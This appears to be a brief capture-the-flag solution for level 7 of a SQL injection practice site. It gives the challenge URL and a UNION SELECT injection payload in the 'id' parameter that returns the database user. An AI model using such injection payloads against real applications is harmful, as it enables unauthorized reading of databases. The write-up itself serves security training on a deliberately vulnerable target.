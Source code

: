 Chall Url:http://www.zixem.altervista.org/SQLi/level7.php?id=1

Payload: view-source:http://www.zixem.altervista.org/SQLi/level7.php?id=-1%20union%20select%201,user(),3--+-
(in source-code)
![](https://user-images.githubusercontent.com/25671488/61189507-02055380-a6ac-11e9-8f78-c2f43faac19b.png)

